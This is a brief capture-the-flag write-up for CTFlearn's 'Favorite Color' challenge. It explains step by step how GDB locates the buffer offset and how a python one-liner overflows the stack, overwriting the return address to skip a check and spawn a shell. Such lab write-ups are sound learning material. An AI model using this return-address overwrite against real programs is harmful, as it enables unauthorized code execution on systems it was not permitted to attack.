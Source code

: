 # [Favorite Color](https://ctflearn.com/challenge/391)

1. Check the source code. Clearly no input can make `good` true. Let's make the program skip the check.
2. GDB -> `disas main` -> instruction after the jump *je*: **0x08048657**
3. `b *vuln+34`, `run`, enter a long string of a's
4. On hitting the breakpoint:
    - `i f` -> ebp is at **0xff89d8f8**
    - `x/100xg $ebp-200` -> input buffer starts at **0xff89d8c8** = ebp-0x30 = ebp-48
    - return address is stored at ebp+4
5. Enter 52 bytes of gibberish and then desired return address (take care of endianness):

    ```shell
    (python -c "print('a'*52 + '\x57\x86\x04\x08')"; cat) | ./color
    ```

> The above spawns shell successfully, executing `cat flag.txt` should give the flag. If you encounter an error "Cannot fork", just kill all the "/bin/sh" processes: `ps aux | awk '$11 == "/bin/sh" {print $2}'`, and then run the exploit again
